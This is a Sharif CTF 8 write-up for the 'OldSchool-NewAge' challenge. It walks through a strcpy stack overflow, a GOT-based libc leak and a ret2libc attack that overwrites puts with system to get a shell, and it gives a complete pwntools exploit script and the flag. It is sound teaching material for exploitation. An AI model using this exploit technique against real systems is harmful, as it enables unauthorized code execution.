

# __Sharif CTF 8__ 
## _OldSchool-NewAge_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Reverse | 75 | merrychap

**Description:** 

> It all started with a leak bang
nc ctf.sharif.edu 4801
Alternative: nc 213.233.161.38 4801

## Solution
### Binary recon
We are given [vuln4](./vuln4) binary and [libc.so.6](./libc.so.6). Let's take a look into the binary. After some reversing we get the next code:
```c
int copy_it(char *s1)
{
  char s2;

  strcpy(&s2, s1);
  return 0;
}

int main(int argc, const char **argv, const char **envp) {
  char s;

  puts("This time it is randomized...");
  puts("You should find puts yourself");
  fflush(stdout);
  fgets(&s, 200, stdin);
  copy_it(&s);
  puts("done!");
  return 0;
}
```
That's all binary. The most interesting function here is ```copy_it``` function. If we see this function in assembly and understand how much stack is allocated for local variables, then we will understand what to do next. 

<p align="center">
  
</p>


### Finding the vulnerability
```asm
sub     esp, 18h
sub     esp, 8
```
Taking into account that we input 200 characters in ```s1```, then it's obvious that here is an easy buffer overflow. Alright, we can overflow ```RET``` of ```copy_it``` function, but what should we do next? How do we get the shell? 

### Exploitation of the binary
The idea is to make **```ret2libc```** attack. To make this, we have to leak a libc address. If we change the flow of the binary after overwriting ```RET``` into first ```puts``` function, making address of GOT as an argument for this ```puts```, then we leak a libc address. Pretty.

This overwriting gives us a chance to input characters one more time. Knowing libc address and the fact that argument for ```fgets``` lays right before ```RET``` address of ```copy_it``` on a stack (just debug and you will see it), then we can write into GOT entry.

Let's write address of calculated ```system``` into ```puts``` entry in GOT, then the last ```puts``` will give us the shell.


### Exploit
You can look at [exploit.py](./exploit.py) or look at just code below:

```python
import struct

from pwn import *


def to_n(addr):
    return struct.unpack('I', addr)[0]


def to_addr(n):
    return struct.pack('I', n)


def main():
    libc = ELF('./libc.so.6')
    
    binsh = to_addr(list(libc.search('/bin/sh'))[0])

    fgets      = '\x3e\x85\x04\x08'
    puts_addr  = '\x03\x85\x04\x08'
    puts_got   = '\x74\x98\x04\x08'
    fflush_got = '\x68\x98\x04\x08'

    pc = remote('ctf.sharif.edu', 4801)

    # puts_got here is argument for the next fgets.
    pc.sendline('AAAAAAAAAAAAAAAAAA' + puts_got + puts_addr + fflush_got)

    print(repr(pc.recvline()))
    print(repr(pc.recvline()))
    
    libc_base = to_n(pc.recvline()[:4]) - libc.symbols['fflush']
    binsh     = to_addr(to_n(binsh) + libc_base)
    system    = to_addr(libc_base + libc.symbols['system'])
    
    print('System address:  ' + hex(to_n(system)))
    print('/bin/sh address: ' + hex(to_n(binsh)))

    # BBBB is RET address of system and binsh is the first argument
    pc.sendline('AAAAAAAAAAAAAAAAAAAAAA' + system + 'BBBB' + binsh)

    pc.interactive()

if __name__ == '__main__':
    main()
```

### And this is subtitle
Text under the subtitle

> SharifCTF{7af9dab81dff481772609b97492d6899}